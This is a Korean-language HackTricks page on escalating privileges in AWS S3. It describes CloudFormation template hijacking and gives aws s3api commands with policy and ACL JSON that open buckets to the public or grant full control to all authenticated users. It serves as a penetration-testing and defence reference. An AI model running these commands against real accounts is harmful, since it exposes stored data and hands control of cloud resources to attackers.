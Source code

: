 # AWS - S3 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

이러한 권한을 가진 공격자는 흥미로운 버킷에서 리소스를 탈취하고 권한을 상승시킬 수 있을 수 있습니다.

예를 들어, "cf-templates-nohnwfax6a6i-us-east-1"라는 **클라우드포메이션 버킷에 대한 이러한 권한을 가진 공격자**는 배포를 탈취할 수 있습니다. 다음 정책으로 액세스를 부여할 수 있습니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
그리고 템플릿이 버킷에 업로드된 후 템플릿이 배포될 때까지 **작은 시간 창**이 있기 때문에 해킹이 가능합니다. 공격자는 자신의 계정에서 **버킷 알림이 전송될 때 트리거되는 람다 함수**를 생성하고 해당 버킷의 **콘텐츠를 탈취**할 수 있습니다.

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Pacu 모듈 [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection)을 사용하여 이 공격을 자동화할 수 있습니다.\
자세한 정보는 원본 연구를 참조하세요: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

이는 S3에 **객체를 가져오고 업로드하는 권한**입니다. AWS 내부 및 외부의 여러 서비스에서 S3 스토리지를 사용하여 **구성 파일**을 저장합니다.\
**읽기 액세스**를 가진 공격자는 그들에게 **민감한 정보**를 찾을 수 있습니다.\
**쓰기 액세스**를 가진 공격자는 데이터를 수정하여 일부 서비스를 악용하고 권한을 상승시키려고 시도할 수 있습니다.\
다음은 몇 가지 예시입니다:

* EC2 인스턴스가 S3 버킷에 **사용자 데이터를 저장**하는 경우, 공격자는 이를 수정하여 EC2 인스턴스 내에서 **임의의 코드를 실행**할 수 있습니다.

### `s3:PutBucketPolicy`

이 권한을 가진 **동일한 계정**에서만 공격자는 더 많은 권한을 부여하여 버킷을 읽고, 쓰고, 수정하고, 삭제하며, 노출시킬 수 있습니다. 그렇지 않으면 오류 `The specified method is not allowed will trigger`가 발생합니다.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

공격자는 이러한 권한을 악용하여 특정 버킷에 대해 **더 많은 액세스 권한을 부여**할 수 있습니다.\
공격자는 동일한 계정이 아니어도 됩니다. 또한 쓰기 액세스가 가능합니다.
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

해커는 이러한 권한을 악용하여 버킷 내 특정 객체에 대해 더 많은 액세스 권한을 얻을 수 있습니다.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

이러한 권한을 가진 공격자는 특정 객체 버전에 Acl을 설정할 수 있을 것으로 예상됩니다.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
